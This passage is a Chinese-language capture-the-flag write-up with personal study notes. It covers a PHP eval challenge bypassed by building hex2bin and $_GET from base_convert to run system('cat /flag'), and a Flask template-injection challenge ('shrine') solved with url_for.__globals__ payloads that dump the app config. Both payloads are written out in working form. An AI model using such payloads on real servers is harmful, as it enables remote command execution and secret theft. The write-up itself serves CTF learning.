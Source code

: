 ```php
    //帮你算出答案
    eval('echo '.$content.';');
}

```
题目要求：
1.长度不能超80
2.所用函数在白名单

用到函数：
1.base_convert( string $number, int $frombase, int $tobase) 函数：在任意进制之间转换数字。
2.dechex() 函数：把十进制转换为十六进制。
3.hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。

该题用PHP动态变量特性，使用变量，拼接函数名以及函数中内容

吸收知识点：
`因为中括号、引号被过滤了，可以用大括号代替`

利用`36`进制可以得出任意小写字母，用它构造`hex2bin`
```shell
#十进制形式的37907361743转换回36进制是hex2bin
base_convert(37907361743,10,36)
```

`_GET`有大写要求,转换成十六进制，`5f474554`

疑惑：最终payload为什么不能直接放十六进制数，为什么要用十进制转十六进制转

payload:`?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag`


# [WesternCTF2018]shrine 
>[参考1](https://www.cnblogs.com/l0y0h/articles/15774308.html)
>[参考2](http://www.manongjc.com/detail/26-exggzlgbipyccoy.html)

对模板注入这有点不太明白，先按着走吧
展现的有点不规则

1.ctrl+U看源码
![在这里插入图片描述](https://img-blog.csdnimg.cn/383de5c6e7b84a1db1d6682936d74b77.png)
测试:`url+/shine/{{8*8}}`，返回64，存在ssti

>注册了一个名为FLAG的config，猜测flag在此config中，若不存在过滤，可以使用{undefined{config}}查看app.config中的内容

>在这要用到python的内置函数：url_for 和 get_flashed_messages
payload:`/shine/{{url_for.__globals__}}`

![在这里插入图片描述](https://img-blog.csdnimg.cn/8ade52c54ffe49eab0ec4a96c70cef18.png)
`/shine/{{url_for.__globals__['current_app'].config}}`

# [网鼎杯 2020 朱雀组]Nmap
>https://zhuanlan.zhihu.com/p/145906109

